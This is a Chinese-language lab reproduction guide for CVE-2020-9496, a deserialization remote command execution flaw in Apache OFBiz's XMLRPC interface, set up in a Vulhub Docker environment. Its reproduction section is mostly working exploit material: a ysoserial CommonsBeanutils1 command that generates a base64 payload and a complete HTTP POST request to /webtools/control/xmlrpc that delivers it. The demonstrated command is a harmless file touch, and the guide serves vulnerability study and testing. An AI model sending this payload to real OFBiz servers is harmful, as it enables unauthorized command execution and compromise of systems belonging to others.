 # Apache OfBiz 反序列化命令执行漏洞CVE-2020-9496

## 漏洞描述

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。 OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

其17.12.04版本之前的XMLRPC接口存在一处反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
- https://github.com/dwisiswant0/CVE-2020-9496
- https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## 环境搭建

Vulhub执行如下命令启动一个Apache OfBiz 17.12.01版本：

```
docker-compose up -d
```

在等待数分钟后，访问`https://your-ip:8443/myportal/control/main`查看到登录页面，说明环境已启动成功。

![image-20220228132653236](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281326342.png)

## 漏洞复现

由于默认情况下没有报错信息，所以使用[参考链接2](https://github.com/dwisiswant0/CVE-2020-9496)中给出的方法无法正确判断漏洞是否存在，还是需要通过执行反序列化来复现漏洞。

使用[ysoserial](https://github.com/frohoff/ysoserial)的CommonsBeanutils1来生成Payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/awesome_poc" | base64 | tr -d "\n"
```

![image-20220228134051709](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281340980.png)

将base64后的payload替换并发送如下数据包：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![image-20220228134410175](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281344325.png)

进入容器中，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220228134307506](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281343563.png)

